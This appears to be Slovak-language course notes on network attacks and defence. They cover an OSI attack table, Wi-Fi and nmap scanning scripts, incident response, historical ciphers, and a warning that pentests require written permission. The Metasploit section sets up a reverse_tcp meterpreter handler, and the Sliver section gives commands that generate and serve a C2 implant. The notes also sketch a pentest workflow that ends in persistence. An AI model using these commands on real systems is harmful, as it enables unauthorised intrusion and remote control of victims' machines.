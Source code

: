 
## A.4 - HACKER NA CHRANENEJ SIETI

| **Vrstva**     | **Typ útoku**            | **Popis**                                                                                 |
| -------------- | ------------------------ | ----------------------------------------------------------------------------------------- |
| Fyzická vrstva | Sniffing                 | Odpočúvanie a zachytávanie dát prechádzajúcich sieťovým médiami.                          |
| Dátová linková | Spoofing                 | Falšovanie MAC adries alebo identít za účelom podvrhnutia komunikácie.                    |
| Sieťová        | MITM (Man-in-the-Middle) | Útočník sa vloží do komunikácie medzi dvoma stranami a zachytáva alebo mení dáta.         |
| Transportná    | Recon (Prieskum)         | Získavanie informácií o sieťových službách, otvorených portoch, atď.                      |
| Relačná        | Hijacking (Unos)         | Preberanie kontroly nad reláciou (napr. TCP session hijacking).                           |
| Prezentačná    | Phishing                 | Podvodné získavanie citlivých údajov (hesiel, kreditných kárt) cez falšované komunikácie. |
| Aplikačná      | Exploitácia              | Využívanie zraniteľností v aplikáciach na získanie neoprávneného prístupu.                |


>[!info] PENETRACNE TESTY !!!
PRISTUP DO USERA>ZISKAJ ROOT PRAVA>PREHLADAJ>ZABETONUJ (ABY ZOSTAL TVOJ)

>[! warning] 
>AK CHCETE UROBIŤ PENETRAČNÉ TESTY MUSÍTE MAŤ PISOMNE POVOLENIE SO ŠPECIFIKÁCIOU TESTOV A ČASOVÝM OBDOBÍM KEDY BUDÚ VYKONANÉ!!!



PREVENCIA:

Vsetko co sme sa doposial ucili. 

1. neopravneny scan  - ids, .pcap, logy

2. brute force attack - ids, pcap, logy  KODY /etc/passwd, /etc/shadow

3. neopravnena wifi - aircrack-ng, wifite


#### LINUX PYTHON SKRIPT NA VYPISANIE NAJDENYCH WIFI SIETI
```python
import subprocess

def scan_wifi():
    cmd = "nmcli dev wifi list"
    networks = subprocess.check_output(cmd, shell=True)
    networks = networks.decode("utf-8")
    return networks

print(scan_wifi())
```

SPUSTIME:
``` bash
python3 wifi_scan_linux.py
```

LINUX BASH SKRIPT NA SKENOVANIE WIFI kazdych 300 sekund {5 minut} uklada do suboru
``` bash
#!/bin/bash

while true; do
    nmcli dev wifi list >> wifi_list.txt
    sleep 300
done
```

SPUSTIME NA POZADI:

``` bash
sh ./wifi_scan_bash.sh &
```

>[!info] 
>Uloha spustena na pozadi sa objavi v zozname procesov pomocou prikazov ```ps```, ```top``` alebo pomocou prikazu ```jobs```. <br><br> Do popredia ulohu dostaneme pomocou prikazu ```fg``` a ukoncime `Ctrl-c` alebo ju nechame `Ctrl-z`. <br><br>Ak mame PID mozeme proces ukoncit `kill PID`




4.neopravnene zariadenie na LAN - nmap
``` bash
nmap IP/24 > zoznam_zariadeni.scan  # scanuje subsiet 254 zariadeni
```


5. privilege escalation - logy

>[! warning ]
>HACKER: PRIVILEGE ESCALATION je technika pomocou ktorej utocnik ziskava vyssie PERMISSIONS a tym pristup k sluzbam a suborom. Cielom je samozrejme byt ROOT.  


OPATRENIA:

a. Identifikacia pocitacov kde bol hacker uspesne pripojeny

b. Izolacia siete a analyza aktivit hackera

c. Dezinfekcia a reinstalacia

>[!warning] 
>AK BOL HACKER NA POCITACI A NIE SME SI ISTY CO SA MU PODARILO A CO NIE... AK SA DA. SPRAVTE KOMPLET REINSTALACIU NA NOVY HDD ALEBO SDD {NAJLEPSIE ESTE ZABALENY} !!! <br>
>VYMONTOVANY HACKNUTY DISK ODLOZTE PRE POTREBY POLICIE A FORENZNEHO SKUMANIA !!!  OZNACTE HO AKO JED AJ S ID CISLOM POCITACA :)

### A.5 HACKOVANIE WIFI SIETI PRAKTICKY

RASPBERRY PI CONNECT

[[SESSION7_Aircrack-ng a wifite2]]

# B. EXPLOITAČNÉ A C2 FRAMEWORKY
## B1. METASPLOIT FRAMEWORK- UKÁŽKA 

METASPLOIT je exploitačný framework obsahujúci tisíce možností ako sa nabúrať do Vašeho počítača. Jeho použitie zvládne aj začiatočník. Vie na diaľku využiť zraniteľnosť Vašeho počítača a získať do neho prístup. Vie vytvárať škodlivé kódy, ktoré na Vašom počítači vytvoria backdoory, reverzné shelly, získajú informácie či prístup do shellu. 

auxiliary = rozne nastroje ako scannery, 
exploit = vyuzitie zranitelnosti systemu na ziskanie kontroly alebo informacii
payload  = skodlivy kod ktory treba spustit u USERA
post- CITTE SA AKO DOMA
NOP = Maskovanie pred AV a IDS


``` metasploit

search windows
use module
show info
set RHOST
CMD: exploit, run, payload

sessions -l
sessions -i <CISLO>
background
```

Priklad 2
``` metasploit
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit

```


## B2 SLIVER (C2 FRAMEWORK)

**Sliver** je moderný, open-source **implant framework** (a **C2 framework**), ktorý je navrhnutý pre **red teaming**, **penetračné testovanie** a **simulácie kybernetických útokov**. Je považovaný za alternatívu k nástrojom ako **Cobalt Strike** alebo **Metasploit**, ale s dôrazom na **stealth**, **flexibilitu** a **moderné techniky obchádzania obranných mechanizmov**.

Instalacia z githubu a kompilacia v go  https://github.com/BishopFox/sliver


Instalacia z githubu a kompilacia v go  https://github.com/BishopFox/sliver

``` bash
cd sliver
./sliver-server

generate --mtls IP_SERVER --os linux --arch amd64 --format elf --http IP_SERVER:PORT --save /home/vboxuser/Downloads

# vygeneruje subor ktory obsahuje skodlivy kod spustitelny na cielovom pocitaci
 
http -l 9000

jobs

sessions

use SESSION_ID


```


## C. KRYPTOGRAFIA

### C.1 Historické šifry
a.  Scytale 
b. Cézarova šifra a ROT13
c. Albertiho Sifrovaci disk 
Nihilist

#### C.2 Vernamova šifra (OTP)

342154 KLUC
181267 SPRAVA
423311 ZASIFROVANA POMOCOU OPERACIE ADD

423311 ZASIFROVANA
342154 KLUC
181267 ODSIFROVANA POMOCOU OPERACIE SUB


OTP cipher - One Time Pad

ABCDEFGHIJKLMNOPQRSTUVWXYZ

### C.3 ENIGMA - ELEKTROMECHANICKY SIFROVACI STROJ


Enigma bola elektromechanický šifrovací stroj používaný na šifrovanie komunikácie medzi jednotkami Nacistického Nemecka. Problémom boli predovšetkým útoky nemeckých ponoriek v Atlantiku. 

Alan Turing a tým jeho kryptoanalytikov v Bletchley Park,  postavil prvý počítač, ktorý dokázal túto šifru prelomiť a čítať tieto správy. Operácia ULTRA bola prísne utajená.
